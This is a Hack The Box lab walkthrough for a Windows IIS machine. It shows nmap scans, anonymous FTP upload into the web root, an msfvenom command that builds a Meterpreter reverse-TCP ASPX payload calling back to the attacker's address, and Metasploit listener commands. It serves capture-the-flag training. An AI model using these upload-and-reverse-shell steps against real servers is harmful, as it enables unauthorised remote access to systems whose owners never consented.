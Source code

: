 # Nmap
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 5000 10.10.10.5 -oN surface.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:28 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```
```CSS
▶ nmap -sC -sV -p 21,80 --min-rate 5000 10.10.10.5 -oN deep.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:31 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

# FTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7c41409-5936-4da5-8464-17f3d93385d2)

# HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1b24c617-3c50-4c19-a2c6-4993b136cba5)

# Foothold
- Observe that the FTP server is in the same route as the HTTP server. Which means there stands a chance if file uploads are allowed a file is uploaded via FTP and it can be then accessed directly using the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a94a4267-2326-4851-9cae-7da69ae1da6e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/43ce2b5e-170d-40e1-96b9-26541fa165ee)

- Create a text file with any random name and upload it. Then access the uploaded file in the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/db8bd9ae-4356-43c7-ad3d-2501ebb011a1)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c67d341-5538-410c-aa80-6caa588743c0)

## MSFVenom
  - Generate a payload using `MSFVenom` for a reverse tcp connection to get a shell.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5e2d416c-4b86-4d87-9f23-d93e4c483f56)
```CSS
▶ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4444 -f aspx -o rsp.aspx
```

 - Upload payload.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b8466f5-48f7-4b75-a897-3dd71973f57d)

- Start listener.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f744751a-a08f-427f-8c4b-aac2ece65d46)
```CSS
▶ sudo msfdb run
▶ use exploit/multi/handler
▶ set payload windows/meterpreter/reverse_tcp
▶ set LHOST tun0
▶ set LPORT 4444
▶ run
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c64fc822-539f-4fb3-9e1e-8e06a0500bfa)

